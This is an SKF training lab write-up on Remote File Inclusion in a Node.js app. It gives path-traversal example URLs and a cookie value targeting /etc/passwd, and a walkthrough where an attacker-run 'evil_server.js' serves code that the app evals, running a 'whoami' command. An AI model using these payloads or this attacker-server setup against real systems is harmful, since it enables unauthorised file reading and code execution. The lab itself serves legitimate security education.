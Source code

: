 # KBID 173 - Remote File Inclusion

## Running the app nodeJs

First make sure nodejs and npm are installed on your host machine.
After installation, we go to the folder of the lab we want to practice.
"i.e /skf-labs/XSS, /skf-labs/RFI/" and run the following commands:

```
$ npm install
```

```
$ npm start
```

Now that the app is running let's go hacking!

## Reconnaissance

Remote File Inclusion (also known as RFI) is the process of including files, that are supplied into the application and loaded from an external (remote) source, through the exploiting of vulnerable inclusion procedures implemented in the application. This vulnerability occurs, for example, when a page receives, as input, the path to the file that has to be included and this input is not properly sanitized, allowing directory traversal characters (such as dot-dot-slash) to be injected. Although most examples point to vulnerable PHP scripts, we should keep in mind that it is also common in other technologies such as JSP, ASP and others.

Warning: To successfully test for this flaw, the tester needs to have knowledge of the system being tested and the location of the files being requested. There is no point requesting /etc/passwd from an IIS web server.

Some Examples:

```text
http://example.com/getUserProfile.jsp?item=../../../../etc/passwd

Cookie: USER=1826cc8f:PSTYLE=../../../../etc/passwd
```

## Exploitation

The File Inclusion vulnerability allows an attacker to include a file, usually exploiting a "dynamic file inclusion" mechanisms implemented in the target application. The vulnerability occurs due to the use of user-supplied input without proper validation.

This can lead to something as outputting the contents of the file, but depending on the severity, it can also lead to:

Code execution on the web server

Code execution on the client-side such as JavaScript

which can lead to other attacks such as:

Cross-site scripting (XSS)

Denial of Service (DoS)

Sensitive Information Disclosure

Let us see how can we exploit the file inclusion vulnerability in a real world scenario, the application here allows us to run 2 commands from the drop down list. One is running Date and the other is Calendar.

PRINTSCREEN PLACEHOLDER

PRINTSCREEN PLACEHOLDER

When we will have a look in our intercepting proxy we can see that the application uses a predefined file that contains the command to execute and prints the results of it.

PRINTSCREEN PLACEHOLDER

Creating your own webserver: In this case you can use nodeJs express to create a small webserver that serves your file. We name it evil_server.js

```javascript
const express = require("express");
const app = express();

app.use(express.static(__dirname + "/static"));
app.use(express.urlencoded({ extended: true }));

app.get("", (req, res) => {
  res.sendFile(__dirname + "/evil.txt");
});

const port = process.env.PORT || 1337;

app.listen(port, () => console.log(`Listening on port ${port}...!!!`));
```

Install dependencies:

```
$ npm install express
```

Then we create a file evil.txt and put the content below

```javascript
exec(`whoami`);
```

Now we are ready to start our evil_server.py and try to make the application load our evil file and hopefully it will get executed.

```
$ node evil_server.js
```

Our remote file inclusion worked and the application seems to load javascript files and eval() the content of them.

PRINTSCREEN PLACEHOLDER

Success! As we observed, we can include our own files through RFI.

## Additional sources

https://www.owasp.org/index.php/Testing_for_Remote_File_Inclusion
